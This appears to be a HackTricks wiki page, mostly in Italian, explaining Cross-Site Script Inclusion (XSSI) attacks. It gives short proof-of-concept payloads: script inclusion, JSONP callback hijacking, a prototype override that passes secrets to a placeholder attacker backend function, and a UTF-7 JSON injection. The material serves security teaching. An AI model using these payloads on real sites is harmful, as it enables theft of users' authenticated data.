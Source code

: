 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** è una vulnerabilità che deriva dalla natura del tag `script` in HTML. A differenza della maggior parte delle risorse, che sono soggette alla **Same-Origin Policy (SOP)**, gli script possono essere inclusi da domini diversi. Questo comportamento è inteso a facilitare l'uso di librerie e altre risorse ospitate su server diversi, ma introduce anche un potenziale rischio per la sicurezza.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Gli script sono esenti dalla **Same-Origin Policy**, consentendo loro di essere inclusi tra domini.
- **Data Exposure**: Un attaccante può sfruttare questo comportamento per leggere i dati caricati tramite il tag `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** è particolarmente rilevante per JavaScript dinamico o **JSON with Padding (JSONP)**. Queste tecnologie utilizzano spesso informazioni di "ambient-authority" (come i cookie) per l'autenticazione. Quando viene effettuata una richiesta di script a un host diverso, queste credenziali (ad es., cookie) vengono automaticamente incluse nella richiesta.
- **Authentication Token Leakage**: Se un attaccante riesce a ingannare il browser di un utente a richiedere uno script da un server che controlla, potrebbe essere in grado di accedere a informazioni sensibili contenute in queste richieste.

### Types

1. **Static JavaScript** - Questo rappresenta la forma convenzionale di XSSI.
2. **Static JavaScript with Authentication** - Questo tipo è distinto perché richiede autenticazione per l'accesso.
3. **Dynamic JavaScript** - Coinvolge JavaScript che genera contenuti dinamicamente.
4. **Non-JavaScript** - Si riferisce a vulnerabilità che non coinvolgono direttamente JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
In questo approccio, le informazioni private sono incorporate all'interno di un file JavaScript accessibile globalmente. Gli attaccanti possono identificare questi file utilizzando metodi come la lettura di file, ricerche per parole chiave o espressioni regolari. Una volta localizzato, lo script contenente informazioni private può essere incluso in contenuti malevoli, consentendo accesso non autorizzato a dati sensibili. Un esempio di tecnica di sfruttamento è mostrato di seguito:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI e Authenticated-JavaScript-XSSI
Questi tipi di attacchi XSSI comportano l'aggiunta dinamica di informazioni riservate allo script in risposta a una richiesta dell'utente. La rilevazione può essere effettuata inviando richieste con e senza cookie e confrontando le risposte. Se le informazioni differiscono, potrebbe indicare la presenza di informazioni riservate. Questo processo può essere automatizzato utilizzando strumenti come l'estensione Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Se i dati riservati sono memorizzati in una variabile globale, possono essere sfruttati utilizzando metodi simili a quelli utilizzati nel Regular XSSI. Tuttavia, se i dati riservati sono inclusi in una risposta JSONP, gli attaccanti possono dirottare la funzione di callback per recuperare le informazioni. Questo può essere fatto manipolando oggetti globali o impostando una funzione da eseguire nella risposta JSONP, come dimostrato di seguito:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Per le variabili che non risiedono nello spazio dei nomi globale, *prototype tampering* può a volte essere sfruttato. Questa tecnica sfrutta il design di JavaScript, dove l'interpretazione del codice comporta l'attraversamento della catena del prototipo per localizzare la proprietà chiamata. Sovrascrivendo determinate funzioni, come `Array`'s `slice`, gli attaccanti possono accedere e leakare variabili non globali:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Ulteriori dettagli sugli attacchi possono essere trovati nel lavoro del ricercatore di sicurezza [Sebastian Lekies](https://twitter.com/slekies), che mantiene un elenco di [vettori](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
La ricerca di Takeshi Terada introduce un'altra forma di XSSI, in cui i file Non-Script, come CSV, vengono leakati cross-origin includendoli come sorgenti in un tag `script`. I casi storici di XSSI, come l'attacco del 2006 di Jeremiah Grossman per leggere un intero rubrica di Google e il leak di dati JSON di Joe Walker nel 2007, evidenziano la gravità di queste minacce. Inoltre, Gareth Heyes descrive una variante di attacco che coinvolge JSON codificato in UTF-7 per sfuggire al formato JSON ed eseguire script, efficace in alcuni browser:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

